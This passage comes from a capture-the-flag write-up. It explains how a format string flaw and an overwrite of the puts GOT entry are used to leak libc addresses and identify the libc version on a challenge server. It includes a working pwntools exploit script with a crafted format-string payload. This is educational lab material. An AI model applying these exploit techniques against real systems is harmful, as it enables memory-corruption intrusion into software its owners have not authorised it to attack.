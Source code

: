 But to do that , we need to get one more address. Ofcourse we can also guess
what libc version the server might be using. But lets try to leak the address.

- What we were doing was overwriting `puts` with `passedFirstHurdle` and while
  doing so the thing that was supposed to be printed by puts call was also
  getting passed as argument to the `passedFirstHurdle` call. And if we see what
  `puts` was supposed to print, it turns out to be the first input that we gave.
  And it seems to be getting printed by [printf](#fstringvuln) without loading a
  format string, so we have here a format string vulnerability(as we have full
  control over the string that gets passed to printf). So there might be a way
  to leak out the address of `__libc_start_main` with this vulnerabilty as this
  was where the `main` function wouldve returned to. So it must be there
  somewhere in the stack.
- To check for libc version, we can use <a href="https://libc.rip" >this</a>, we
  would need two dynamically loaded addresses along with their function names
  and this gives us the the libc version that would have these two functions
  with the same offset.
- First lets see where main is normally returning to. With gdb we can see that
  with normal execution it returns to `__libc_start_main+270`. So whatever
  address we leak out, we must subtract 270 from it to get address of
  `__libc_start_main` and then when we put the values in the site, we will get
  the libc which is used.
- We bruteforce to find the correct format string. We note the value of address
  printed,subtract 270, go the site, put the values of `__libc_start_main` and
  `printf` and then see if it matches. Initially it wont give any results, and
  when we get to the correct thing, it will give us the libc of our system. It
  turns out the suitable thing would be something like this

  ```python
  from pwn import *
  import struct
  def f(a: int) -> bytes:
      return struct.pack('I', a)
  AddressOfPuts = 0x804c01c
  AddressOfPassedFirstHurdle = 0x80492b3
  Name = ('A' * 4 + "%23$8x").encode() + f(AddressOfPuts)
  Password = f(AddressOfPassedFirstHurdle)
  Filename = '' # Put filename here

  def leak_address() -> None:
      p = process(Filename)
      print(p.recvline())
      p.sendline(Name)
      print(p.recvline())
      p.sendline(Password)
      [print(p.recvline()) for i in range(0, 3)]
      # What this will do is, we will have dynamic addresses of two libc functions
      # printf and __libc_start_main
      # after this we can go to libc.rip
      # and from the differences between these addresses , it will tell us
      # the version of libc used in server
      payload = ("250382\x00" + 'A' * 21).encode()
      p.sendline(payload)
      p.interactive()
  leak_address()
  ```
